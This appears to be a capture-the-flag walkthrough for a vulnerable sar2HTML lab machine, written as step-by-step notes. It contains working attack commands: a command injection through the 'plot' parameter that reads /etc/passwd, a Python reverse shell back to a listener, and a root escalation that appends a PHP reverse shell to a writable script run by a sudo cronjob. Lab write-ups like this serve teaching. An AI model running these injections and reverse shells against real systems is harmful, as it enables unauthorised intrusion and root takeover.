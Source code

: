 

1. Network Scanning
  > nmap -sS 192.168.62.0/24

2. Investigate browser
  - Input `192.168.62.35` into browser
3. Directory Brute Force
  > gobuster dir -u [url] -w [path to wordlist]

4. Download files
  > curl 192.168.62.35/robots.txt
  - Shows sar2html
  - could also attempt `192.168.62.35/robots.txt` in browser and get same result

5. Attempt in browser
  - opens up
6. Research sar2HTML on exploit-db (or database of choice)
  - demonstrates a command injection:
    - `http://<ipaddr>/index.php?plot=;<command-here>`
7. Attempt basic command
  > http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
  - click on "select host" on left column
  - success!

8. Gather info for a reverse shell
  - Now that we know we can execute commands, we want to see if we can gain access to the server
  - Several reverse shell options, we'll start with a python-based one so we'll see if python3 is installed
  > http:192.168.1.24/sar2HTML/index.php?plot=; python3 --help

9. Setup reverse shell
  - we'll need a listener on our end and need to inject a Python script to connect to it
  > nc -lvp 1234
  > python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

- Successfully connected:

- Setup a stable shell (optional):
  > python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

10. Find a flag
  - success
  - First went to home directory and it had a text file there

11. Gain root
   - Everyone says they "eventually searched crontabs and found the cronjob that executed a bash script and sudo"
  > cat /etc/crontab
    - a cronjob contains `cd /var/www/html/ && sudo ./finally.sh'
    - significant because it uses sudo to run this script. This means we can potentially insert something into the script and run it as root
    - Our objective is to gain root access, so we'll do as we did before and attempt another reverse shell
  
12. Investigate script
  > cd /var/www/html
  > ls
  > cat finally.sh
  - This script executes another script `./write.sh'
  - Investigate new script
  > cat ./write.sh
    - reating a folder in temp directory
  - Run `ls -l` to see what permissions we have with these scripts
  > ls -l
    - Shows we have write ability to `write.sh` :) 
    - We now have the ability to write to a script that has sudo permissions

13. Next reverse shell
  - Echo a command into the script
    - *Note: echo requires a \ in front of a `$` and a `"` for the file to accept it*
    ```
     echo "php -r '\$sock=fsockopen(\"192.168.62.200\",8888);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" >> write.sh
    ```
  - Setup a listener
    > nc -lvp 8888
  - wait for cronjob to run



